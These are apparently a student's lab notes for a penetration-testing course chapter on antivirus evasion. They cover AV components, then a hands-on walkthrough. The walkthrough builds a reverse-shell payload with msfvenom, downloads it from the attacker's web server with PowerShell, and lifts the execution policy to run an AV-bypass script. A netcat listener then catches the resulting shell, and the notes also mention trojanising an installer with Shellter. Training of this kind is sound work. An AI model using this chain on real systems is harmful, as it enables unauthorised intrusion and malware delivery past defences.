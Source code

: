 
#### 14.1. Antivirus Software Key Components and Operations

14.1.1. Known vs Unknown Threats
14.1.2. AV Engines and Components
14.1.3. Detection Methods

*Lab Exercise*
3. Sharing file using RDP 
```
Hint
1) Download malware.exe using the drive capabilities provided by either xfreerdp or rdesktop.
2) Once the file is uploaded, you should find more occurrences of the flag by looking at Behavior > Process and service actions.


┌──(kali㉿kali)-[~/OSCP/14]
└─$ rdesktop -u offsec -p lab -g 85% -r disk:tmp=/tmp 192.168.244.61
 # Tmp folder from kali is shared to windows which can be access in \\tscleint\tmp

> Copy malware file to shared folder. File shared from there. 

```

#### 14.2. Bypassing Antivirus Detections
14.2.1. On-Disk Evasion
14.2.2. In-Memory Evasion
#### 14.3. AV Evasion in Practice
14.3.1. Testing for AV Evasion
14.3.2. Evading AV with Thread Injection
1. Start the machine and connect it with Rdp
```
rdesktop 192.168.207.62 -u offsec -p lab -g 50%+150+100
```
2. Create a malicious file named binary.exe using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.195 LPORT=443 -f exe > binary.exe
```
3. Tried to upload it to windows machine, first start apache in kali and try to download in windows. Blocked by avira anti-virus. 
```
┌──(kali㉿kali)-[~/OSCP/14]
└─$ sudo systemctl start apache2 
                                                                             
┌──(kali㉿kali)-[~/OSCP/14]
└─$ cat /var/www/html/binary.exe 

C:\Users\offsec>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.195/binary.exe','binary.exe')
Exception calling "DownloadFile" with "2" argument(s): "An exception occurred during a WebClient request."
At line:1 char:1
+ (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.195 ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
```

4. Design a script from trial and error method for skipping antivirus detection named bypass.ps1
```
![[Pasted image 20240131083231.png]]
```

5. Attempting to run the script and encountering the Execution Policies error
```
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

6. Changing the ExecutionPolicy for our current user
```
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```

7. Run and obtained reverse shell. 
```
PS C:\Users\offsec\Desktop> .\bypass.ps1

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array
124059648
124059649
...


┌──(kali㉿kali)-[~/OSCP/14]
└─$ sudo nc -nvlp 443                          
listening on [any] 443 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.207.62] 63486
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>
```



14.3.3. Automating the Process
Follow the walkthrough, it may take time to install shellter. The point here is creating a paylaod kind file with spotifyinsteller using shellter and sharing it to the windows mahcine using apache server running here at kali. You can download in windows using this command. 
```
C:\Users\offsec>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.195/binary.exe','binary.exe')
```

#### 14.4. Wrapping Up








